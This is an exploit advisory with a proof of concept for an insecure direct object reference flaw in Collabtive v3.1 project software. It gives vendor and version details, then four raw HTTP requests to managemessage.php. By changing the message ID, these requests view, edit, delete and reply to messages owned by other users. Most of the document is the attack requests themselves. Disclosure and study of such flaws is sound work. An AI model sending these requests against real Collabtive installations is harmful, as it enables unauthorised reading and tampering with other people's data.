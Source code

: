 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view/update/delete/reply the message that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managemessage.php?action=showmessage&mid=2(CHANGE HERE)&id=1(ATTACK'S PROJECT ID) HTTP/1.1
```

```
POST /managemessage.php?action=edit&id=1 HTTP/1.1
...

title=message2&text=mmm2+user1&mid=2(CHANGE HERE)
```

```
GET /managemessage.php?action=del&mid=2(CHANGE HERE)&id=1 HTTP/1.1
```

```
POST /managemessage.php?action=reply&id=1 HTTP/1.1
...

title=Re%3A+message1&text=aaaaa&thefiles=0&sendto%5B%5D=all&desc=&mid=2(CHANGE HERE)
```